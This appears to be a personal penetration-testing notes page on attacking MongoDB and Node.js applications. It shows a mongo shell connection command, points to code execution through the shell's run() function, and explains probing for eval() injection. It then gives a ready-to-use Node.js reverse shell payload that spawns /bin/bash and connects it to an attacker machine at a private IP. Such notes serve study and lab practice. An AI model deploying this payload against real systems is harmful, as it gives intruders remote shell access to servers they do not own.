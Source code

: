 # MongoDB

Connect to mongo shell via the mongoDB protocol.

```abap
mongo "mongodb://192.168.116.110:27017"
```

# RCE

If you have access to the mongo shell, you can get code execution (RCE) with the `run()` function. It is explained in this article

[mongodb - SSJI to RCE](https://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/)

![Untitled](MongoDB%20e4058f55dfe84c82a4d0c265e787b50f/Untitled.png)

# NODE RCE

Test that you can get code execution through `eval()`. If you have an input field, try inputing `1+1`. If it turns out to be `2`, you can get code execution most likely.

![Untitled](MongoDB%20e4058f55dfe84c82a4d0c265e787b50f/Untitled%201.png)

![Untitled](MongoDB%20e4058f55dfe84c82a4d0c265e787b50f/Untitled%202.png)

If you get lucky enough to have an input field that uses `eval()` on a node application, You can get a shell with this code. Other payloads are [here](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)

```abap
(function(){     
 var net = require("net"),         
       cp = require("child_process"),         
       sh = cp.spawn("/bin/bash", []);     
  var client = new net.Socket();
 
  //create connection to the attacking machine
  client.connect(80, "192.168.49.243", function(){         
      client.pipe(sh.stdin);         
      sh.stdout.pipe(client);        
      sh.stderr.pipe(client); 
  });     
  return /a/; 
})()%
```

It is explained in this article

[Eval("console.log('RCE Warning')")](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)